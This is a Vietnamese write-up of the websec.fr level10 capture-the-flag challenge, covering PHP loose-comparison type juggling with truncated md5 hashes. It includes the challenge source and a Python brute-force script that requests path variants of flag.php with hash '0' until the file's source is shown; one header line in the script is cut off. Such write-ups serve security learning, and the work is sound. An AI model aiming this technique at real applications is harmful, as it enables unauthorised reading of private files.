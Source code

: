 ## websec.fr-level10

Hi mọi người, đây là bài public writeup đầu tiên của mình :D
Chủ đề của bài viết này chính là challenge level10 của websec.fr

Khi truy cập vào challenge, ta được cung cấp source của file index.php.

```php
<?php
        if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
            $file = $_REQUEST['f'];
            $request = $_REQUEST['hash'];

            $hash = substr (md5 ($flag . $file . $flag), 0, 8);

            echo '<div class="row"><br><pre>';
            if ($request == $hash) {
            show_source ($file);
            } else {
            echo 'Permission denied!';
            }
            echo '</pre></div>';
        }
  ?>

```

Đầu tiên biến $hash sẽ được gán bởi giá trị của hàm md5().

Biến $hash và $request được so sánh bởi '==', là 'Loose comparision' nên 2 giá trị sẽ được đưa về cùng một kiểu dữ liệu để so sánh. (các bạn có thể tham khảo tại [đây](https://www.php.net/manual/en/language.operators.comparison.php))

Nếu giá trị 0e... được tạo ra bởi hàm md5() và được so sánh với với giá trị 0 được gán cho biến $request thì hàm if sẽ trở thành True. Khi đó ta có thể xem được nội dung của file flag.php thông qua hàm show_source().

Vì cách thức hoạt động của md5 khá phức tạp (các bạn có thể tham khảo tại [đây](https://vi.wikipedia.org/wiki/MD5)) nên ý nghĩ đầu tiên là brute-force bằng cách chỉnh sửa các giá trị truyền vào hàm md5() đến khi nào có được giá trị 0e... :D

Ta có liên tục thêm './' vào trước 'flag.php' thông qua param 'f' của biến $_REQUEST['f'] đến khi nào ra được giá trị mong muốn. Nhưng nếu làm thế sẽ tăng độ dài của tham số truyền vào và vượt mức cho phép của Apache nên ta có thể thay thế bằng "." + "/"*i + "flag.php"

Mình sẽ viết script để exploit bằng python

```python
import requests

burp0_url = "https://websec.fr:443/level10/index.php"
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Not;A=Brand\";v=\"99\", \"Chromium\";v=\"106\"", "Sec-Ch-Ua-Mobile": ">
filename = "flag.php"
i = 1
while True:
     burp0_data = {"f":filename, "hash": "0"}
     r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
     if "Permission denied!" not in r.text:
          print(r.text)
          break
     else:
          print("Test: ", i)
     filename = "." + "/"*i + "flag.php"
     i = i + 1

```

Brute-force sẽ hơi mất nhiều thời gian, nhưng chờ đợi là hạnh phúc :DD


Nếu có mình có sai sót gì về kiến thức hay bất kỳ vấn đề gì, xin hãy đóng góp qua mail: dangth2002@gmail.com. 

